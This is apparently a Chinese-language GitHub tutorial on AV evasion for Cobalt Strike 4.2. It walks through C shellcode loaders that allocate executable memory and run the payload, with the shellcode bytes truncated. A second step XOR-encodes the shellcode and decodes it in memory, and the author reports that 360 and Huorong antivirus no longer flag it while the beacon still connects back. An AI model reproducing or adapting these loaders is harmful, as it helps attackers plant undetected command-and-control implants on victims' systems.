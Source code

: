 CS版本：Cobalt Strike 4.2

# 0x00 shellcode上线测试
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式，勾选x64）  
生成的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int main() {
    char* old= VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目

直接在VS2019下编译会有类型匹配问题，需要对VirtualAlloc返回的值进行强制类型转换，能成功编译的代码如下
```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// length: 891 bytes
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";
int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

# 0x01 shellcode免杀上线
使用如下C代码，对shellcode进行异或加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中，下述代码会在内存中进行异或解密并执行
```
#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );
    }
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
